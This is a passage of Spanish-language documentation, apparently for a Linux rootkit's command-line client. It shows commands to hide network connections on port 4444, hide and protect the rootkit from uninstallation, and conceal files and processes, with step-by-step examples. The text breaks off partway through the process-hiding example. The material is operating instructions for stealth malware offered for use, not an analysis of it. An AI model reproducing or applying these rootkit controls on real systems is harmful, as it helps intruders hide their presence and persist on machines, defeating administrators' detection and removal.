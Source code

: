 ##### Manejo de Conexiones
```bash
# Ocultar conexión por puerto
./client --hide-connection=4444

# Desocultar conexión
./client --unhide-connection=4444
```

##### Control del Rootkit
```bash
# Ocultar el rootkit mismo
./client --hide

# Desocultar el rootkit
./client --unhide

# Proteger de desinstalación
./client --protect

# Desproteger
./client --unprotect
```

---

### Ejemplos Prácticos

#### Ejemplo 1: Ocultar un Archivo
```bash
# 1. Crear archivo de prueba
echo "contenido secreto" > /tmp/archivo_secreto.txt

# 2. Verificar que existe
ls /tmp/archivo_secreto.txt

# 3. Ocultar el archivo
./client --hide-file=archivo_secreto.txt

# 4. Verificar que está oculto
ls /tmp/ | grep archivo_secreto  # No debería aparecer
ls /tmp/ | grep Oculto          # Podría aparecer como "Oculto"

# 5. El archivo sigue accesible directamente
cat /tmp/archivo_secreto.txt    # Funciona

# 6. Desocultar
./client --unhide-file=archivo_secreto.txt
ls /tmp/archivo_secreto.txt     # Vuelve a aparecer
```

#### Ejemplo 2: Ocultar un Proceso
```bash
# 1. Iniciar proceso en background
sleep 300 &
PID=$!
echo "PID del proceso: $PID"

# 2. Verificar que está visible
ps aux | grep $PID

# 3. Ocultar el proceso
./client --hide-pid=$PID

# 4. Verificar ocultamiento
```
